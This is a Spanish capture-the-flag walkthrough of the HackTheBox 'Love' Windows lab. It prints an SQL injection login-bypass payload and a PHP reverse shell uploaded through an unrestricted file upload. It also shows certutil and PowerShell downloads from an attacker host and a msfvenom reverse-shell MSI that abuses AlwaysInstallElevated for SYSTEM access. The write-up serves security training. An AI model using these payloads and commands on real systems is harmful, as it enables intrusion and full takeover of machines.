## Introducción
El día de hoy veremos la máquina Love de la plataforma de HackTheBox. Se trata de una máquina Windows de nivel fácil que aborda los siguientes conceptos:

- SQL Injection (Authentication Bypass)
- Voting System Exploitation (Unrestricted File Upload)
- AlwaysInstallElevated Privilege Escalation

## Resolución

# Reconocimiento
Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.95.241 -oN puertos.txt
```

```bash
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Voting System using PHP
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-02-08T10:09:43-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Identificamos múltiples puertos abiertos característicos de un entorno Windows. Los servicios más relevantes para nuestra explotación son: HTTP (80, 443, 5000), SMB (445), MySQL (3306) y WinRM (5985).

### Puerto 445 - SMB
Utilizando las herramientas `netexec` y `smbmap`, comprobamos el acceso mediante null session sin obtener resultados significativos:



### Puerto 80 - HTTP
Al acceder al puerto 80, identificamos un panel de autenticación de un sistema denominado "Voting System" que solicita credenciales:



Procedemos a enumerar directorios utilizando `gobuster`:

```bash
gobuster dir -u http://10.129.95.241 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

La enumeración revela la existencia del directorio `/administrator`:



Al acceder a este endpoint, observamos un panel de autenticación diferente que ahora solicita usuario y contraseña:



### Investigación del Voting System
Al buscar información sobre vulnerabilidades conocidas del "Voting System", encontramos múltiples exploits públicos disponibles:



# Explotación

### SQL Injection - Authentication Bypass
Identificamos un exploit de bypass de autenticación mediante SQL Injection. Al analizar el código del exploit, observamos la siguiente inyección SQL:

```sql
login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
```

Utilizamos Burp Suite para interceptar y modificar la petición POST del formulario de login:



Tras inyectar el payload malicioso, conseguimos bypasear exitosamente el mecanismo de autenticación y acceder al panel administrativo:



### Unrestricted File Upload
Una vez dentro del panel administrativo, identificamos un exploit adicional que aprovecha una vulnerabilidad de carga de archivos sin validación adecuada. Aunque el exploit requiere credenciales, descubrimos que es posible subir archivos a través de la sección de candidatos sin necesidad de autenticación previa.

Para explotar esta vulnerabilidad, seguimos estos pasos:

**Paso 1:** Nos dirigimos al panel de "Positions" y creamos una nueva posición con un nombre y descripción arbitrarios:



**Paso 2:** Navegamos al panel de "Candidates" y creamos un nuevo candidato asignándole la posición creada anteriormente.

**Paso 3:** Preparamos una reverse shell en PHP. Utilizamos el repositorio de Ivan Sincek: https://github.com/ivan-sincek/php-reverse-shell

Modificamos los parámetros de conexión en el script:

```php
$ip   = '10.10.14.120';  // IP de nuestra máquina atacante
$port = 4444;              // Puerto en el que nos pondremos en escucha
```

**Paso 4:** Subimos el archivo PHP malicioso en el campo de imagen del candidato. La aplicación no valida correctamente la extensión del archivo y permite la carga:



**Paso 5:** Nos ponemos en escucha con `netcat`:

```bash
nc -lvnp 4444
```

**Paso 6:** Accedemos a la ubicación del archivo subido a través de la URL:

```url
http://10.129.95.241/images/windowsRevShell.php
```



Recibimos exitosamente la reverse shell en nuestra máquina atacante:



La flag de usuario se encuentra en `C:\Users\Phoebe\Desktop\user.txt`.

# Escalada de privilegios

Para enumerar posibles vectores de escalada de privilegios, utilizamos **WinPEAS** (https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

Descargamos la versión binaria de WinPEAS y levantamos un servidor HTTP en nuestra máquina atacante:

```bash
python3 -m http.server 80
```

Desde la máquina víctima, descargamos el binario:

```powershell
certutil.exe -urlcache -f http://10.10.14.120/winPEASx64.exe winPEAS.exe
```

Alternativamente, podemos usar PowerShell:

```powershell
powershell wget http://10.10.14.120/winPEASx64.exe -outfile winPEAS.exe
```

Ejecutamos WinPEAS:

```powershell
.\winPEASx64.exe
```

### AlwaysInstallElevated
Durante el análisis de la salida de WinPEAS, identificamos una configuración crítica de seguridad:



**AlwaysInstallElevated** es una política de Windows Installer que, cuando está habilitada tanto en `HKLM` como en `HKCU`, permite a cualquier usuario ejecutar archivos MSI con privilegios de SYSTEM. Esta configuración representa una vía de escalada de privilegios directa.

### Explotación de AlwaysInstallElevated
Creamos un archivo MSI malicioso utilizando `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.120 LPORT=9001 -f msi -o rev.msi
```

Transferimos el archivo MSI a la máquina víctima utilizando el mismo método anterior:

```powershell
certutil.exe -urlcache -f http://10.10.14.120/rev.msi rev.msi
```

Nos ponemos en escucha con `netcat` en nuestra máquina atacante:

```bash
rlwrap nc -lvnp 9001
```

Ejecutamos el archivo MSI en la máquina víctima:

```powershell
.\rev.msi
```

Recibimos una shell con privilegios de SYSTEM:



La flag de root se encuentra en `C:\Users\Administrator\Desktop\root.txt`.

¡Ya somos administradores! 🎉